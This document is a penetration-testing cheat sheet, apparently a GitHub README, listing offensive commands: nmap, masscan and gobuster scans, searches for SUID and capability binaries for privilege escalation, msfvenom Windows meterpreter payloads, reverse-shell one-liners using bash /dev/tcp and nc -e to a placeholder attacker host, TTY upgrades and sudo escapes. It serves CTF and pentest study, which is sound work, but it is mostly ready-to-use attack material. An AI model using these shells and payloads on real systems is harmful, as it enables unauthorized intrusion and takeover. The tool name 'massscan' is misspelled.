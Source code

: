 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# udp scan top 1000 ports
nmap -sU -sC -sV -vvv <IP> -oN nmap/udp-ports

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w ~/usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```
## services
```bash
SNMP
- snmpwalk -v1 -c public <IP> 
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>
```
